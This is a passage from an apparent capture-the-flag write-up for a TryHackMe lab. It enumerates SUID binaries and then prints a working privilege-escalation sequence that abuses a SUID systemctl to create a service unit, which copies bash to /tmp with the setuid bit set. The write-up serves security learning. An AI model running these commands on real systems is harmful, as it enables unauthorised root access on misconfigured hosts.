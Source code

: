 ```terminal
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/bin/su
/bin/ntfs-3g
/bin/mount
/bin/ping6
/bin/umount
/bin/systemctl
/bin/ping
/bin/fusermount
/sbin/mount.cifs
www-data@vulnuniversity:/home/bill$
```

After searching for SUID binaries, we found an interesting one, it's **systemctl**, let's search it in [GTFOBins](https://gtfobins.github.io/)

![SUID](/assets/img/tryhackme/Vulnversity/SUID.png)

Great! it is possible for us to get root using that, but we need to make some changes to that before trying to execute it. I will be changing the command that gets executed from `id > /tmp/output` to `cp /bin/bash /tmp/bash; chmod +s /tmp/bash`. What that does is take a copy of bash and put in tmp directory. After that, it adds a SUID bit to that file so that we can execute as it's owner that is root. We also need to change the path of the binary from `./systemctl` to `/bin/systemctl`. Here is how are final commands should look like:

```terminal
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cp /bin/bash /tmp/bash; chmod +s /tmp/bash"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```

